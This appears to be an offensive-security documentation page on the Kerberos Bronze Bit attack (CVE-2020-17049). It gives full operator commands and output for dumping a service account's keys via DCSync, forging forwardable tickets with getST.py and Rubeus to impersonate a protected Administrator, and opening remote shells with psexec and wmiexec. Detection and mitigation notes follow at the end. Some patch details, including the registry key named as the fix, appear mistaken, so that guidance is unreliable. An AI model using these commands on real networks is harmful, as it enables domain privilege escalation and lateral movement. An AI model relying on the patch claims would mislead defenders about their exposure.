

## What Is the Bronze Bit Attack?

Bronze Bit is a Kerberos delegation vulnerability discovered by Jake Karnes (NetSPI) in November 2020 and assigned CVE-2020-17049. It targets environments where [constrained delegation](/docs/kerberos/delegation/constrained-delegation/) with Protocol Transition is configured — and it defeats the two controls Microsoft specifically designed to prevent privileged accounts from ever being delegated.

Without the attack, the S4U delegation chain breaks the moment the impersonation target is protected:

1. The service account calls **[S4U2Self](/docs/kerberos/delegation/s4u2self-abuse/)** (Service for User to Self — a Kerberos extension that lets a service synthesize a ticket to itself on behalf of any user, even one who never authenticated via Kerberos) to get a [service ticket](/docs/kerberos/tickets/) for the target user.
2. The KDC notices that the target user is protected — a member of the **Protected Users group** (an AD security group whose members cannot have forwardable Kerberos tickets, cannot use NTLM, and cannot use RC4 or DES encryption) or has the **NOT_DELEGATED flag** (`AccountNotDelegated` — `0x1000000` in `userAccountControl`, AD's bitmask of per-account flags) set.
3. The KDC returns a service ticket with the **forwardable bit** cleared (the `forwardable` bit is a flag in the Kerberos ticket that signals whether the ticket may be handed off to a third service; when it is 0, S4U2Proxy refuses to proceed).
4. **S4U2Proxy** (Service for User to Proxy — the second S4U sub-protocol, which uses the S4U2Self ticket to obtain a ticket to a different back-end service) checks the forwardable flag. It is 0. The delegation chain stops.

With Bronze Bit (on an unpatched environment), the attacker short-circuits step 3. They use the compromised service account's own encryption key to decrypt the **enc-part** (the encrypted portion of a Kerberos ticket that the issuing service account can read and write) of the S4U2Self-issued ticket, flip the forwardable bit from 0 to 1, and re-encrypt. The tampered ticket is then fed to S4U2Proxy, and — pre-patch — the KDC does not re-validate the forwardable flag inside the ticket's encrypted body. It trusts it. The chain completes.

The name comes from the nature of the forgery. A **[Silver Ticket](/docs/kerberos/ticket-attacks/silver-ticket/)** is forged entirely offline — no KDC contact, maximum attacker control. Bronze Bit modifies a ticket the KDC legitimately issued, tampering only one bit in the encrypted body. It is a "bronze" level forgery: cheaper than a Silver Ticket to execute, but more valuable than the attacker's normal S4U result.

## How Does the Bronze Bit Attack Work?

The diagram shows both paths: what the KDC does for a protected user when the environment is patched versus what happens pre-patch with Bronze Bit.



## The Vulnerability

The enc-part of a service ticket is encrypted with the service account's key. Only the service account can read it — the client cannot, the back-end service cannot, and the KDC does not hold the service account's long-term key in a way that lets it cheaply re-derive and re-check enc-part contents at S4U2Proxy time.

Pre-patch, the KDC validated the forwardable flag at S4U2Proxy by looking at the outer ticket structure — essentially trusting the ticket as presented without re-decrypting the enc-part to compare the forwardable bit inside it against what it originally set. An attacker who already possesses the service account key (the same key that encrypted the enc-part in the first place) can decrypt, modify, and re-encrypt the enc-part. When S4U2Proxy later checks the outer structure, the bit is 1. The inner enc-part confirms 1. Everything is consistent. Nothing looks wrong.

The November 2020 patch (KB4598347) changes the KDC to validate a new full PAC signature (`KrbtgtFullPacSignature`) that the KDC itself generates and that the service account cannot reproduce. Post-patch, any tampering of the enc-part produces a PAC signature mismatch and the S4U2Proxy call is rejected.

## What Does the Bronze Bit Attack Require?

1. **A service account with constrained delegation + Protocol Transition.** The account must have both:
   - `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` (`T2A4D`) set — this is what enables Protocol Transition (S4U2Self without requiring a Kerberos-authenticated session from the target user)
   - `msDS-AllowedToDelegateTo` configured with at least one target [SPN](/docs/kerberos/kerberoast/) (Service Principal Name — an identifier tied to a specific service instance, e.g. `MSSQLSvc/sqlserver.radiant.local`)

2. **The service account's NT hash or AES256 key.** The attack requires the key that encrypted the S4U2Self ticket's enc-part. Without it, you cannot decrypt the ticket, flip the bit, and re-encrypt it. RC4 (NT hash) works on older environments; AES256 is required on AES-only environments and is generally preferred.

   Extract the NT hash and AES256 key using `secretsdump.py` (DCSync) from Linux or `sekurlsa::ekeys` in mimikatz from a Windows machine where `svc_sql` has recently authenticated:

   ```bash
   # DCSync — requires Domain Admin or equivalent DCSync rights
   secretsdump.py -just-dc-user svc_sql radiant.local/Administrator:'Admin@Radiant1!'@dc01.radiant.local
   ```

   ```
   [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
   radiant.local\svc_sql:1109:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
   [*] Kerberos keys grabbed
   radiant.local\svc_sql:aes256-cts-hmac-sha1-96:a561f39e8bba26e3ec87de18b38d7a1e7a9bc2e3f12d84c92e41904d97a10b1c
   radiant.local\svc_sql:aes128-cts-hmac-sha1-96:3b198428c06c27a3dfdc29b5fe4c3bd5
   radiant.local\svc_sql:des-cbc-md5:57a0f0c67e5a4cfe
   ```

   The NT hash is the rightmost field in the `uid:rid:lmhash:nthash` line (`2b576acbe6bcfda7294d6bd18041b8fe`). The AES256 key is labeled `aes256-cts-hmac-sha1-96`.

3. **The impersonation target must be protected.** If the target is not a Protected Users member and does not have NOT_DELEGATED set, standard S4U delegation already works — Bronze Bit is unnecessary. The attack is specifically valuable because it bypasses those protections.

## Checking If the Target Is Protected

Before running the attack, confirm the target's protection status. If neither protection is set, standard constrained delegation abuse applies and Bronze Bit is not needed.


  
`ldapsearch` is part of the `ldap-utils` package (`sudo apt install ldap-utils` on Debian/Kali). The `\` at the end of each line is bash's line continuation character — the command runs as a single statement.

```bash
ldapsearch -H ldap://dc01.radiant.local \
  -b "DC=radiant,DC=local" \
  -D "radiant.local\svc_sql" \
  -w 'Service123!' \
  "(sAMAccountName=Administrator)" \
  userAccountControl memberOf
```

The flags:
- `-H ldap://dc01.radiant.local` — the LDAP server URI to connect to
- `-b "DC=radiant,DC=local"` — the search base (where in the AD tree to start the query; `DC=radiant,DC=local` is the root of the `radiant.local` domain)
- `-D "radiant.local\svc_sql"` — the bind DN (the account authenticating the query; LDAP accepts the `domain\user` format here)
- `-w 'Service123!'` — the bind password for `svc_sql`
- `"(sAMAccountName=Administrator)"` — the LDAP filter; finds the account whose `sAMAccountName` attribute equals `Administrator`
- `userAccountControl memberOf` — the attributes to return (omitting these returns all attributes, which is noisy)

```
# Administrator, Users, radiant.local
dn: CN=Administrator,CN=Users,DC=radiant,DC=local
userAccountControl: 512
memberOf: CN=Protected Users,CN=Users,DC=radiant,DC=local
memberOf: CN=Domain Admins,CN=Users,DC=radiant,DC=local
```

- **`userAccountControl: 512`** — bit `0x1000000` (`NOT_DELEGATED`) is not set in this output; the protection here comes from Protected Users group membership (`memberOf: CN=Protected Users,...`).
- A `userAccountControl` value of `0x1000200` (hex) or `17825280` (decimal) would indicate NOT_DELEGATED is set.
  
  
```powershell
Get-ADUser Administrator -Properties "AccountNotDelegated","MemberOf" |
  Select-Object AccountNotDelegated, @{N='ProtectedUsers';E={$_.MemberOf -match 'Protected Users'}}
```

The `@{N='ProtectedUsers';E={...}}` syntax is a PowerShell calculated property — it creates a column named `ProtectedUsers` whose value comes from the expression `$_.MemberOf -match 'Protected Users'`, which returns `True` if any string in the `MemberOf` array contains `Protected Users`.

```
AccountNotDelegated ProtectedUsers
------------------- --------------
              False           True
```

- **`AccountNotDelegated: False`** — the NOT_DELEGATED flag is not set.
- **`ProtectedUsers: True`** — the account is a member of Protected Users. Standard S4U delegation would return a non-forwardable ticket. Bronze Bit is applicable.

To check programmatically whether the NOT_DELEGATED bit is set in `userAccountControl`:

```powershell
$user = Get-ADUser Administrator -Properties userAccountControl
[bool]($user.userAccountControl -band 0x1000000)
```

```
False
```

A result of `True` means the NOT_DELEGATED flag is set on the account itself, separate from Protected Users group membership. Either protection alone is enough to block standard delegation and make Bronze Bit relevant.
  


## Checking If the Environment Is Patched

The Bronze Bit patch has three requirements — all three must be satisfied on all relevant machines or the environment remains vulnerable:

1. **November 2020 (or later) cumulative update on all DCs** — the KDC fix ships in KB4598347.
2. **Registry key on all DCs:** `HKLM\SYSTEM\CurrentControlSet\Services\Kdc\KrbtgtFullPacSignature` set to `1` (audit mode) or `2` (enforcement mode). Without this key, even patched DCs do not enforce the new signature check.
3. **November 2020 (or later) patches on all service servers** in the delegation chain — application servers must be updated to understand and pass through the new PAC signature.

Environments with incomplete rollouts — missing the registry key, unpatched application servers, or legacy DCs — remain exploitable years after the patch release.


  
The most direct test is to attempt the attack. If `-force-forwardable` succeeds in obtaining a forwardable service ticket for a Protected User, the environment is unpatched.

To check the registry key remotely (requires valid credentials with local admin rights on the DC):

```bash
wmiexec.py radiant.local/Administrator:'Admin@Radiant1!'@dc01.radiant.local \
  "reg query HKLM\SYSTEM\CurrentControlSet\Services\Kdc /v KrbtgtFullPacSignature"
```

The `\` at the end of the first line is bash's line continuation character — the command runs as a single statement. The second argument (in quotes) is the Windows command executed remotely via WMI (Windows Management Instrumentation — a Windows remote management interface).

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc
    KrbtgtFullPacSignature    REG_DWORD    0x2
```

- `0x0` or key absent — enforcement disabled, potentially vulnerable even if patch is applied.
- `0x1` — audit mode only (logs but does not block tampered tickets).
- `0x2` — enforcement mode; the environment rejects Bronze Bit attempts.
  
  
Check the registry key on the domain controller directly:

```powershell
Invoke-Command -ComputerName dc01.radiant.local -ScriptBlock {
  Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc" `
    -Name "KrbtgtFullPacSignature" -ErrorAction SilentlyContinue
}
```

The backtick `` ` `` at the end of the line inside the script block is PowerShell's line continuation character.

```
KrbtgtFullPacSignature : 2
PSPath                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\...
PSParentPath           : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\...
PSChildName            : Kdc
PSDrive                : HKLM
PSProvider             : Microsoft.PowerShell.Core\Registry
```

A value of `2` means enforcement is active. A missing key or value of `0` means the fix is not enforced regardless of patch level.

To check whether the patch itself is installed on a DC (run this from a machine with PowerShell remoting access to the DC, or directly on the DC):

```powershell
Get-HotFix -ComputerName dc01.radiant.local | Where-Object { $_.HotFixID -eq "KB4598347" }
```

```
Source        Description      HotFixID  InstalledBy          InstalledOn
------        -----------      --------  -----------          -----------
DC01          Update           KB4598347 NT AUTHORITY\SYSTEM  11/10/2020
```

No output means the patch is not installed. Note that `Get-HotFix -ComputerName` requires the `RemoteRegistry` service to be running on the target and the calling account to have admin rights on it.
  


## Executing Bronze Bit

Both tools perform the same three-step sequence: S4U2Self → tamper forwardable bit → S4U2Proxy. The ticket saved to disk is a service ticket for the impersonation target at the specified SPN.


  
`getST.py` handles the full S4U chain. The `-force-forwardable` flag instructs it to tamper the forwardable bit after S4U2Self and before calling S4U2Proxy.

```bash
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -impersonate Administrator \
  -force-forwardable \
  radiant.local/svc_sql:'Service123!' \
  -dc-ip 192.168.56.10
```

The flags:
- `-spn MSSQLSvc/sqlserver.radiant.local` — the SPN of the back-end service to delegate to; must match a value in `svc_sql`'s `msDS-AllowedToDelegateTo` attribute
- `-impersonate Administrator` — the user identity to impersonate in the final service ticket
- `-force-forwardable` — perform Bronze Bit: after S4U2Self, decrypt the enc-part using `svc_sql`'s key, set the forwardable flag, re-encrypt, then call S4U2Proxy with the tampered ticket
- `radiant.local/svc_sql:'Service123!'` — the service account whose key is used to tamper the ticket; the format is `domain/username:password`
- `-dc-ip 192.168.56.10` — the domain controller to contact; using an IP avoids DNS dependency

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Received a valid PAC. Ticket is:
[*]     Forcing the service ticket to be forwardable
[*]     Requesting S4U2proxy
[*] Saved ccache (KRB5 credentials cache) ticket in Administrator.ccache
```

The final line confirms the service ticket was saved. If you see `KDC can't fulfill requested option` from S4U2Proxy, the environment is patched or the account's delegation settings are wrong.

**Using NT hash instead of plaintext password:**

```bash
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -impersonate Administrator \
  -force-forwardable \
  -hashes :2b576acbe6bcfda7294d6bd18041b8fe \
  radiant.local/svc_sql \
  -dc-ip 192.168.56.10
```

- `-hashes :2b576acbe6bcfda7294d6bd18041b8fe` — `svc_sql`'s NT hash in Impacket format. The colon-prefix is standard Impacket notation: the value to the left of the colon is the LM hash (left empty because LM hashes are effectively obsolete), and the value to the right is the NT hash. This is the key used to tamper the enc-part.

**Using AES256 key:**

```bash
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -impersonate Administrator \
  -force-forwardable \
  -aesKey a561f39e8bba26e3ec87de18b38d7a1e7a9bc2e3f12d84c92e41904d97a10b1c \
  radiant.local/svc_sql \
  -dc-ip 192.168.56.10
```

- `-aesKey` — the AES256 long-term key for `svc_sql`. Required when the domain enforces AES-only Kerberos. Using AES also avoids the RC4 anomaly detection that some environments flag.
  
  
Rubeus performs the full chain — S4U2Self, enc-part tampering, S4U2Proxy — when the `/bronzebit` flag is present. The backtick `` ` `` at the end of each line is PowerShell's line continuation character.

```powershell
.\Rubeus.exe s4u `
  /user:svc_sql `
  /rc4:2b576acbe6bcfda7294d6bd18041b8fe `
  /impersonateuser:Administrator `
  /msdsspn:MSSQLSvc/sqlserver.radiant.local `
  /bronzebit `
  /ptt
```

The flags:
- `/user:svc_sql` — the service account performing the S4U chain
- `/rc4:2b576acbe6bcfda7294d6bd18041b8fe` — `svc_sql`'s NT hash (RC4 session key); used both to authenticate the S4U request to the KDC and to decrypt and re-encrypt the enc-part
- `/impersonateuser:Administrator` — the target identity to impersonate in the final ticket
- `/msdsspn:MSSQLSvc/sqlserver.radiant.local` — the target SPN for S4U2Proxy; must be in `svc_sql`'s allowed delegation list
- `/bronzebit` — enables Bronze Bit mode: after receiving the S4U2Self ticket, Rubeus tampers the forwardable bit before calling S4U2Proxy
- `/ptt` — inject the resulting ticket directly into the current logon session ([pass-the-ticket](/docs/kerberos/ticket-attacks/pass-the-ticket/)); omit this flag to save to disk instead

``` {linenos=table}
[*] Action: S4U

[*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
[*] Building AS-REQ (w/ preauth) for: 'radiant.local\svc_sql'
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIFHDCC...

[*] Action: S4U (Bronze Bit)

[*] Requesting S4U2self
[+] S4U2self success!
[*] Received a valid S4U2self ticket — but it is NOT forwardable
[*] Applying Bronze Bit — flipping forwardable flag in enc-part
[+] Ticket is now forwardable
[*] Performing S4U2proxy
[+] S4U2proxy success!
[*] base64(ticket.kirbi):
      doIGxjCC...

[*] Ticket successfully imported!
```

The lines `Received a valid S4U2self ticket — but it is NOT forwardable` followed by `Ticket is now forwardable` confirm the enc-part tampering succeeded. If S4U2Proxy returns an error after the forwardable bit is set, the environment's KDC is patched.

**Using AES256 key instead of NT hash:**

```powershell
.\Rubeus.exe s4u `
  /user:svc_sql `
  /aes256:a561f39e8bba26e3ec87de18b38d7a1e7a9bc2e3f12d84c92e41904d97a10b1c `
  /impersonateuser:Administrator `
  /msdsspn:MSSQLSvc/sqlserver.radiant.local `
  /bronzebit `
  /ptt
```

- `/aes256` — use the AES256 session key instead of NT hash. Preferred in AES-only environments and avoids triggering RC4 downgrade alerts.
  


## Using the Ticket

The Bronze Bit output is a standard Kerberos service ticket. Once you have it, usage is identical to any other S4U-obtained ticket.


  
```bash
export KRB5CCNAME=/tmp/Administrator.ccache

# Remote shell via SMB
psexec.py radiant.local/Administrator@sqlserver.radiant.local -k -no-pass

# Execute commands via WMI (Windows Management Instrumentation)
wmiexec.py radiant.local/Administrator@sqlserver.radiant.local -k -no-pass

# Browse file shares
smbclient.py radiant.local/Administrator@sqlserver.radiant.local -k -no-pass
```

The flags:
- `export KRB5CCNAME=...` — tells Impacket tools which ccache file (KRB5 credentials cache — the Linux format for stored Kerberos tickets) to use; every tool in the session reads this environment variable automatically
- `-k` — use Kerberos authentication from the ccache instead of NTLM
- `-no-pass` — do not prompt for a password; authentication is entirely from the ticket

The ticket is valid only for the SPN it was issued for — `MSSQLSvc/sqlserver.radiant.local` in the examples above. To access a different service on the same host, run Bronze Bit again with a different `-spn` value.
  
  
If you used `/ptt`, the ticket is already injected into your session:

```powershell
# C$ is a hidden Windows administrative share that exposes the full C: drive —
# automatically created on every Windows machine, accessible only to administrators
dir \\sqlserver.radiant.local\C$

# Enter-PSSession opens an interactive PowerShell shell on the remote machine,
# equivalent to SSH — authenticated via the injected Kerberos ticket
Enter-PSSession -ComputerName sqlserver.radiant.local
```

If you saved to disk (no `/ptt`), inject first. The `.kirbi` extension is Windows's native Kerberos ticket format — a binary structure that Rubeus can load directly into the session:

```powershell
.\Rubeus.exe ptt /ticket:C:\Temp\Administrator.kirbi
```

```
[*] Action: Import Ticket
[+] Ticket successfully imported!
```

Then proceed with the commands above. After `ptt`, `klist` shows the ticket in the current session.
  


## Operational Notes

**Patch state is the critical variable.** Bronze Bit only works pre-patch. Before investing time in the full attack chain, confirm the environment status using the checks in the "Checking If the Environment Is Patched" section. An enforcement-mode `KrbtgtFullPacSignature = 2` registry value on all DCs means this attack will not succeed.

**Incomplete patching is common.** KB4598347 was released in November 2020 and required both a code patch *and* a manually set registry key. Many environments applied the code patch without setting the registry key, leaving them technically patched but not enforcing the fix. Additionally, the fix requires all application servers to be updated — a single unpatched server in the delegation chain keeps that path exploitable.

**NT hash vs AES256 key.** The enc-part tampering step requires the service account's long-term key. On domains that enforce AES-only Kerberos (a common hardening control), the NT hash will not work because the enc-part is AES-encrypted. You need the AES256 key. Extract it from the domain controller using DCSync or from a compromised machine using `sekurlsa::ekeys` in mimikatz. On environments where RC4 is still permitted, the NT hash works and is simpler to extract.

**S4U2Self output naming is counterintuitive.** Rubeus output during S4U2Self reads something like `Received a valid S4U2self ticket` but names the requesting service account, not the impersonation target. This is normal — S4U2Self issues a ticket *to the requesting service* on behalf of the target user. The target user's identity appears inside the ticket, but the outer ticket is addressed to the front-end service (`svc_sql`). Only after S4U2Proxy does the final ticket reference the back-end SPN.

**Samba lab caveat.** Samba 4 may not implement the `KrbtgtFullPacSignature` check identically to Windows. In a Samba-based lab, Bronze Bit may succeed even after the registry key is set, or may fail in ways inconsistent with Windows behavior. This is a Samba implementation gap, not evidence that a production Windows environment is patched or unpatched. Always validate the attack behavior against a Windows DC for production assessment work.

**The impersonation target cannot be [krbtgt](/docs/kerberos/ticket-attacks/golden-ticket/) or a machine account.** S4U2Self will not return a usable ticket for the `krbtgt` account. Machine accounts (`COMPUTERNAME$`) are also generally not useful impersonation targets for this technique.

## How Do You Detect and Defend Against Bronze Bit?

### What Logs Does the Bronze Bit Attack Generate?

- **Event ID 4769** at the DC — fires for each S4U2Proxy call. The ticket includes a `PA-FOR-USER` (pre-authentication for user) structure naming the impersonated account; a 4769 where the requested service is `MSSQLSvc/sqlserver.radiant.local` and the account name is `Administrator` should correlate with whether `Administrator` ever actually authenticated to `svc_sql`.
- **Event ID 4768** at the DC — fires when Rubeus or `getST.py` requests a TGT for `svc_sql` to begin the S4U chain. Normal service account TGT requests do not typically originate from attacker-controlled hosts at odd hours.
- **Event ID 4624** at the target service host — logon events for the impersonated user (`Administrator`) will appear when the service ticket is presented.

### What Logs Does the Bronze Bit Attack Not Generate?

- **The enc-part tampering itself.** Decrypting, modifying, and re-encrypting the ticket happens entirely on the attacker's machine. No Windows event fires for this step — the KDC cannot observe it until S4U2Proxy is called.
- **The tampered forwardable bit.** Pre-patch KDCs do not log a warning that a forwardable ticket was accepted for a Protected User. From the DC's perspective, the S4U2Proxy call looked normal.
- **The connection from attacker to DC.** S4U calls from a service account are entirely normal behavior; there is no "Bronze Bit" flag in KDC event logs.

### How Do You Mitigate Bronze Bit?

- **Apply KB4598347 on all DCs and set `KrbtgtFullPacSignature = 2`.** This is the primary fix. Both steps are required. Registry value `2` enforces rejection of tampered tickets. Value `1` only logs (audit mode) and does not block the attack.
- **Patch all service servers in the delegation chain.** A patched DC with an unpatched application server can still be exploited if the application server is in the delegation path.
- **Restrict Protocol Transition.** Service accounts should only have `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` if it is operationally required. Many constrained delegation configurations do not need Protocol Transition — disabling it removes the S4U2Self step Bronze Bit depends on.
- **Add privileged accounts to Protected Users.** This does not prevent Bronze Bit on unpatched environments — it is specifically what Bronze Bit bypasses. It does, however, prevent standard constrained delegation abuse on patched environments.
- **Audit `msDS-AllowedToDelegateTo`.** Any service account with this attribute configured can attempt S4U delegation. Restrict it to accounts and target SPNs that genuinely require it.
- **Credential Guard on service account hosts.** Prevents NT hash and AES key extraction from [LSASS](/docs/redteam/credential-dumping/) memory, raising the bar for obtaining the service account key needed to tamper the enc-part.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has detection for S4U2Proxy calls targeting Protected Users members, which is anomalous in patched environments and highly anomalous in pre-patch environments that should not be attempting this delegation pattern. MDI also correlates the impersonated account in the 4769 against the account's actual protection status.
- **Microsoft Sentinel / Splunk** — query for Event ID 4769 where the requesting service account has `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` set AND the impersonated user is a Protected Users member. That combination should never result in a forwardable ticket post-patch. A corresponding `KrbtgtFullPacSignature` registry check helps triage whether the event represents a real attack.
- **Zeek / network monitoring** — capture S4U2Proxy Kerberos exchanges (AS-REQ from service account followed by TGS-REQ with `PA-FOR-USER` extension). Correlate the impersonated account against Protected Users membership to identify anomalous delegation patterns.
- **CrowdStrike / [EDR](/docs/redteam/defender-bypass/)** — behavioral rules on `Rubeus.exe s4u /bronzebit` and `getST.py -force-forwardable` execution patterns. Catching the attack at the tooling layer is more reliable than detecting the ticket in flight, since the tampering step leaves no host-side OS event.

## References

### Original Research
- Jake Karnes (NetSPI) — "Kerberos Bronze Bit Attack" (2020); identified CVE-2020-17049, demonstrated the enc-part forwardable bit tampering technique, and documented the incomplete patching gap created by the optional registry key requirement

### Vulnerability
- CVE-2020-17049 — Kerberos KDC Security Feature Bypass Vulnerability; patched in Microsoft's November 2020 Patch Tuesday (KB4598347); requires both the code update and `KrbtgtFullPacSignature` registry key enforcement

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts; `getST.py -force-forwardable` implements the Bronze Bit S4U chain
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit; `s4u /bronzebit` implements the full Bronze Bit flow

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-SFU — Kerberos Protocol Extensions: Service for User and Constrained Delegation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/)
